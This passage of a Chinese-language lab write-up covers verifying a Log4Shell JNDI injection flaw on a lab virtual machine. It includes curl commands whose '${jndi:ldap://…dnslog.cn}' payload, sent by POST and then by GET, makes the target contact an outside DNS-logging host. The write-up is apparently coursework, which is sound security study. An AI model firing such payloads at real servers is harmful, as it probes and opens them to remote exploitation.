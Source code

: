 12. 在虚拟机中尝试发送 `POST` 请求，查看是否能够成功触发漏洞。很明显，没有成功。(图片和前面图片的端口不同是因为尝试了多次，但截了这一次的图)
    ```sh
    curl -X POST http://192.168.198.13:31388/hello -d 'payload="${jndi:ldap://v89v2i.dnslog.cn/ajdjd}"' 
    ```
   <div><img src="img/6_尝试POST.png" width=100%></div>
   
   - 再看漏洞代码片段，与老师视频中不同，我们的漏洞代码中 `payload` 是通过 `GET` 请求传参的，而不是 `POST` 请求。但是使用 `GET` 请求 dnslog 网站没有 record。
   <div><img src="img/7_漏洞中是GET.png" width=100%></div>

13. 参考了同学的做法，将 `payload` 改为 `GET` 请求的方式，并绕过 GET 过滤，成功发送请求。
   ```sh
   curl -G http://192.168.198.13:31388/hello --data-urlencode 'payload="${jndi:ldap://tq8lht.dnslog.cn}"'
   ```
   <div><img src="img/8_验证漏洞可利用性.png" width=100%></div>

   - 同时查看 dnslog 网站，新增了两条记录，也就是说它解析了两次这个域名。
   <div><img src="img/8_dnslog记录的record.png" width=100%></div>